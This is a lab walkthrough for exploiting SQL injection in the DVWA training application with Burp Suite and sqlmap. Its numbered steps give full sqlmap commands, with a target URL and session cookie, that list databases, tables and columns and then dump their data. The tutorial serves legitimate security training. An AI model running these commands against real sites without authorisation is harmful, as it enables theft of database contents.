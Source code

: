 #### Tool Used
**sqlmap** : sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. It comes with a kick-ass detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.<br><br>

**Step 1** : Start Burpsuite<br><br>
**Step 2** : Install burp extenstion CO2 from Bwapp store from extension section  <br><br>
**Step 3** : Set browser proxy to IP 127.0.0.1 and PORT 8080<br><br>
**Step 4** : Intercept the DVWA traffic for sql <br><br>
**Step 5** : Send that traffic to sqlmapper by right clicking on the intercept part<br><br>
**Step 6** : Copy the code from CO2 sqlmap command<br><br>
**Step 7** : The copied command will be like this <br>``-u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7"``<br><br>
**Step 8** : Execute the folling commands<br>
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs
``` 
The above command will list the database anem which is present on the website if it is vulnerable. So from the list of database name copy any one database name which you want to explore more.<br><br>
**Step 9** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> --tables
```
Now this command will list the table name of that database<br><br>
**Step 10** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> -T <table name> --columns
```
The above command will list the coulmns name of the table<br><br>
**Step 11** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> -T <table name> -C <columns>
```
This command will list all the data which is present in that column<br><br>
**Step 12** : Execute the folling commands
```
sqlmap -u "http://10.5.251.4:80/dvwa/vulnerabilities/sqli/?id=2^&Submit=Submit" --cookie="security=low;PHPSESSID=4ff2a823e64e9f7c2fdf14adfc4c6ef7" --dbs -D <The database name you copied earlier> -T <table name> -C <column name> --dump
```
This command will dump all the data present in that column

#### Further Reading on Sqlmap Usage
1. [Sqlmap](https://www.youtube.com/watch?v=yPMbb38pwVI)
2. [BurpSuite](https://www.youtube.com/watch?v=danMmjMt1og&list=PLWPirh4EWFpEiXbu4JgQG0KoX6-MU8FbT)
